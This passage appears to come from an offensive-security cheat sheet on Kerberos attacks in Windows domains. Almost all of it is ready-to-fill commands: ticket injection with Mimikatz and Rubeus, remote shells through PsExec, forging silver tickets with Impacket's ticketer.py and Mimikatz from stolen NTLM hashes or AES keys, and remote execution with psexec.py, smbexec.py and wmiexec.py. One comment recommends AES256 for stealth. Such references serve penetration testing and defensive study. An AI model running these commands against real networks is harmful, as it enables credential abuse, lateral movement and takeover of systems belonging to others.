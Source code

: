 
### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```
